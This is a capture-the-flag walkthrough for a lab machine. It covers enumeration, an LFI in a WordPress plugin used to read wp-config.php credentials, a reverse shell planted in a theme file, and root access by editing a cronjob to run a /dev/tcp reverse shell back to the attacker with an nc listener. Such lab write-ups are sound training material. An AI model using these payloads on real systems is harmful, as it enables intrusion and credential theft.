


#  All_in_One Walkthrough


### __First Stage : Enumeration

So lets do a nmap scan for open ports

>nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn \<ip>

```
# Nmap 7.91 scan initiated Thu Dec 10 16:31:38 2020 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn 10.10.110.123
Warning: 10.10.110.123 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.110.123
Host is up, received user-set (0.17s latency).
Scanned at 2020-12-10 16:31:38 IST for 1810s
Not shown: 64787 closed ports, 745 filtered ports
Reason: 64787 conn-refused and 745 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.74.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLcG2O5LS7paG07xeOB/4E66h0/DIMR/keWMhbTxlA2cfzaDhYknqxCDdYBc9V3+K7iwduXT9jTFTX0C3NIKsVVYcsLxz6eFX3kUyZjnzxxaURPekEQ0BejITQuJRUz9hghT8IjAnQSTPeA+qBIB7AB+bCD39dgyta5laQcrlo0vebY70Y7FMODJlx4YGgnLce6j+PQjE8dz4oiDmrmBd/BBa9FxLj1bGobjB4CX323sEaXLj9XWkSKbc/49zGX7rhLWcUcy23gHwEHVfPdjkCGPr6oiYj5u6OamBuV/A6hFamq27+hQNh8GgiXSgdgGn/8IZFHZQrnh14WmO8xXW5
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Ww9ui4NQDHA5l+lumRpLsAXHYNk4lkghej9obWBlOwnV+tIDw4mgmuO1C3U/WXRgn0GrESAnMpi1DSxy8t1k=
|   256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAOG6ExdDNH+xAyzd4w1G4E9sCfiiooQhmebQX6nIcH/
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 10 17:01:48 2020 -- 1 IP address (1 host up) scanned in 1809.99 seconds
```

So ports that are open 

* 21
* 22
* 80

So lets visit the website on port 80.


Since we a website lets do a gobuster scan.


We get this.


The directories are 

* wordpress
* hackathons

Lets visit wordpress


Now lets visit hackathons


if we go to the source code of this page we find 


Maybe it is encoded in vigenere lets fire up [cyberchef](https://gchq.github.io/CyberChef/) . We get a password but we dont know where it is used .


Now we can use wpscan to scan the wordpress site

> wpscan --url http://\<ip>

We get interesting plugins.


Now after searching in gooogle we get that both are vulnerable plugins . 

Lets try exploiting mail-masta plugin.


###  __Second Stage : Initial Access__

The mail-masta plugin has __[LFI](https://www.exploit-db.com/exploits/40290)__ which we can use to exploit.


We can see the **/etc/passwd** file  using

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Now we want the username and password which can be found in wp-config.php . If we use put directly in the parameter pl we wont get , we need to use php filter to get the config file . Google *"php filter lfi"* you will get results. 

I am using base64 filter .

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

We can get the file in base64 encoded format.


If we decode it we get the username and password.


So lets login and get reverse shell.


Use this command to access the edited 404.php file

```BASH
curl http://<ip>/wordpress/wp-content/themes/twentytwenty/404.php 
```

Now we get a shell.


Use these commands to upgrade shell.


```BASH
python3 -c"import pty;pty.spawn('/bin/bash')"
#then press CTRL-Z 
stty raw -echo ; fg
#press enter two times
export TERM=screen
```

### __Third Stage : www-data to user__

We run linpeas to see if we can get attack vectors or loopholes.

We see a **cronjob** running by __root__


Then we see port __3306__ open which is __mysql server__


And we can find **credentials** for the mysql db


So if we go to the /home/elyana directory we see


So if we search using **find** command 

>find / -type f -user elyana 2>>/dev/null




And we can see that private.txt has password in it.

Now we can ssh into the machine and get the user flag





### __Fourth Stage : user to root__


Now if we try sudo -l we get this


When we were www-data we saw that a cronjob was running , hence we can see if we can use it.

Let's go and cat the script.


Let's edit the script to get a reverse shell

>bash -i >& /dev/tcp/\<vpn_ip>/4444 0>&1


And start a listener using
>nc -lvnp 4444


Now we get root shell.


